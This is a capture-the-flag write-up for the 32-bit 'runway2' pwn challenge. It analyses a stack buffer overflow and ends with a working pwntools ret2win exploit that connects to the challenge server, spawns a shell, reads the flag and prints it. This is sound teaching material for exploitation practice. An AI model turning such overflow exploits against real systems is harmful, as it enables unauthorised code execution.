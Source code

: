 https://ctftime.org/event/2449

# runway2 (pwn)

Now with a twist!

nc challs.pwnoh.io 13402

## Analysis

We can see that this is a 32 bit x86 binary with no stack canaries or PIE:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We can note that arguments are passed on the stack in 32 bit x86 binaries:

```
$ ret abi 32 
linux 🐧 x86

scratch/caller-save/volatile:
  EAX ECX EDX XMM0-XMM7 YMM0-YMM7 ZMM0-ZMM7

callee-save/non-volatile:
  EBX ESI EDI EBP

call:
  STACK => EAX XMM0 YMM0 ZMM0

syscall:
  EAX EBX ECX EDX ESI EDI EBP => EAX

🔗 https://www.agner.org/optimize/calling_conventions.pdf
```

We can see that the `win` function requires the first two arguments to have specific values. We can set these by controlling the space on the stack used to define the values of the arguments when calling the function:

```C
int win(int check, int mate) {
    if (check == 0xc0ffee && mate == 0x007ab1e) {
        printf("You win! Here is your shell:\n");
        fflush(stdout);

        system("/bin/sh");
    } else {
        printf("No way!");
        fflush(stdout);
    }
}
```

We can see that `get_answer` has a stack buffer overflow which allows us to control the return address and at least two arguments on the stack:

```C
int get_answer() {
    char answer[16];

    fgets(answer, 0x40, stdin);

    return strtol(answer, NULL, 10);
}
```

Note that the quiz portion of the program serves only as window dressing. It is not required to perform any specific operations with the `calculate_answer` function for example.

## Solution

1) Overflow the buffer on the stack to reach the return address
2) Specify the address of the `win` function as the new return address
3) Note that to align the stack there is a gap between the return address and the first parameter
4) Place the values for `check` and `mate` into two 4 byte slots on the stack
5) Note that the first parameter has a lower address on the stack and so it comes first in our payload which is written from a lower address to a higher address - when calling functions we push arguments onto the stack from right to left decrementing the stack pointer as we do

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./runway2", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b win")
p = remote("challs.pwnoh.io", 13402)

payload = b""
payload += b"A" * 0x1c
payload += p32(elf.sym["win"])
payload += p32(0)
payload += p32(0xc0ffee)
payload += p32(0x007ab1e)

p.sendlineafter(b"?\n", payload)

p.readline()

p.sendline(b"/bin/cat flag.txt")

p.interactive() # bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}
```

## Flag
`bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}`

smiley 2024/09/29
